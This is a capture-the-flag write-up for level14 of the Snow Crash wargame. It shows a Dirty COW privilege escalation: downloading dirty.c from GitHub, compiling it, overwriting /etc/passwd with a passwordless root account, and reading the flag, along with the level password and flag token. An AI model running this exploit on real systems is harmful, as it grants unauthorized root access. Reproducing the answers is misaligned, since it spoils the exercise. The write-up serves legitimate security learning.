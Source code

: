 Login as `level14`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level14
level14@192.168.1.64's password: 2A31L79asukciNyi8uppkEuSx
```
There is no file or binary to exploit in home directory. Search for what can be exploit.
```shell
level14@SnowCrash:~$ uname -a
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```
Linux kernel `< 4.8.3` (created before 2018) are vulnerable to **Dirty COW**[¹](https://dirtycow.ninja/).

Dirty COW allows privilege escalation by exploiting race condition on the copy-on-write mechanism.
```shell
level14@SnowCrash:~$ cd /tmp/
level14@SnowCrash:/tmp$ wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
level14@SnowCrash:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
level14@SnowCrash:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: <Enter>
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
Login as `root`.
```shell
level14@SnowCrash:/tmp$ su firefart
Password: <Enter>
```
Login as `flag14` and get the flag.
```shell
firefart@SnowCrash:/tmp# su flag14
Congratulation. Type getflag to get the key and send it to me the owner of this livecd :)
flag14@SnowCrash:~$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```
